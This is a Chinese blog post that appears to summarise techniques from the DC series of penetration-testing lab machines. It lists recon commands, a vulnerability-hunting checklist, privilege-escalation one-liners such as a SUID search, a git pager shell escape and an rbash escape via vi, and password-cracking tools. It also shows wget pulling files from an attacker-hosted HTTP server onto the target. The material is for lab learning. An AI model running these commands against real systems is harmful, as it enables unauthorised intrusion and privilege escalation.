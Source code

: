 ```yaml
---
title: DC系列靶机总结
date: 2021/12/12
tags: [walkthrough, 渗透测试]
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_17.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_17.jpg
---
```




# DC系列靶机总结

## (一) 信息收集

- 扫描局域网内靶机地址:

```
sudo arp-scan -l
```

- 扫描靶机开放的端口以及详细的信息:

```
nmap -A -sV xxx_ip (查CMS种类)
```

- 扫描web目录(,寻找登录后台, 寻找可疑文件):

```
dirb  //一般
dirbuster  //可以使用dirb的字典
dirsearch  //较好
goburster
```

- 眼光不应该局限于页面的主要内容,可以使用Google去查询靶机web或其他有关于靶机的内容



## (二) 漏洞搜寻

- 首先进入靶机HTTP服务(如果有的话), 尝试sql注入, 密码暴力破解(八成不行)

- 从搜寻的CMS(如果能发现)寻找CMS的漏洞 //Google是个好帮手
- 使用相应的CMS扫描工具对靶机IP继续进行扫描,查找用户以及相关的信息
- 从网站中看看有没有什么可以提交的页面,发掘是否有文件包含漏洞
- 如果进入CMS管理系统,查看是否可以使用或下载PHP插件,在PHP页面中插入反弹shell, 或者寻找里面插件的漏洞

- 在网站中发送信息,如果可疑,用brupsuite拦截,并修改发送的值, 尝试sql注入以及文件包含

- 文件包含漏洞查询时可以使用模糊测试工具wfuzz, 查看输入的命令被包含在哪个文件中

- 使用searchsploit查询漏洞文件

````
searchsploit XXX   //搜索漏洞  
searchsploit -m exp_name  //查询漏洞所在地址
````



 

## (三) 权限提升

- 使用msf或者nc等工具登录靶机控制界面可能没有交互式shell这时需要:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 查看是否能进行suid提权

```
find / -user root -perm -4000 -print 2>/dev/null
```

- 查看当前用户是否具有某些root用户权限:
- 向文件中添加内容直接获得root权限,
- 使用 sudo  xxx 执行命令`(别忘记前面加sudo)`

```
sudo -l
```

- 查看里面有没有什么特殊的文件, 使用漏洞搜寻查找是否具有漏洞,是否可以据此提权
- git提权(sudo -l发现)

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```



## (四) 密码破解

- 在得知CMS类型的时候就可以使用相关的工具进行密码破解,比如wp-scan
- 使用hydra进行破解(一般破解ssh密码时使用这个
- cewl 抓取网站信息来充当密码
- john破解哈希值

## (五) 杂记

- rbash绕过(vi方法)

```
//选择一个文件,使用vi打开
//末行模式下:
(1)  :set shell=/bin/bash
(2)  :shell
```

- 配置hosts文件,有时DNS无法解析靶机地址,这时我们就需要自己在攻击机器上添加靶机的IP以及主机名

```
cd /etc/hosts
```

- 靶机之间的文件传输

```
// 使用python在攻击机器上开启http服务,在靶机上wget下载.注意攻击机器http服务的开启要在传送的文件同一目录下,靶机的下载要在/tmp文件夹或其他具有弱权限的文件夹下下载

//攻击机器 python2
python -m SimpleHTTPServer xxx_port
//攻击机器 python3
python -m http.server xxx_port

//靶机
wget http://xxxx_ip:xx_port/xxx_file
```

- 注意查看靶机里面邮件内容可能有惊喜

